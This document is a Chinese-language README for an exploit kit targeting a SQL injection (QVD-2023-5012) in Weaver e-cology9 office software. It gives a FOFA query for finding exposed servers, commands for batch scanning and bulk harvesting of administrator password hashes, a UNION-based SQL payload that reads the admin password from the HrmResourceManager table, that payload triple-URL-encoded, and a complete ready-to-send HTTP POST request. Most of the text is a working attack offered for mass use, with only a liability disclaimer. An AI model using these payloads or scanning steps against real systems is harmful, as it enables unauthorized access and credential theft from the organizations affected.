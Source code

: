 # QVD-2023-5012
泛微e-cology9 SQL注入批量扫描poc、exp

## fofa

app="泛微-协同商务系统"

## 工具利用

python3 QVD-2023-5012.py -u http://127.0.0.1:1111 单个url测试

python3 QVD-2023-5012.py -f url.txt 批量检测 

python3 gethash.py -f url.txt 批量获取管理员hash并生成hash.txt
![hash](./hash.jpg)

扫描会自动保存存在漏洞的url到vuln.txt

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## payload

keyword参数三重url编码

爆管理员密码hash

xx%' union select 1,(select password from HrmResourceManager where id=1) union select 1,'1

编码后为：

25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31

数据包为：

```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: xxxxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.15.99 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2661

isDis=1&browserTypeId=269&keyword=25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31
```
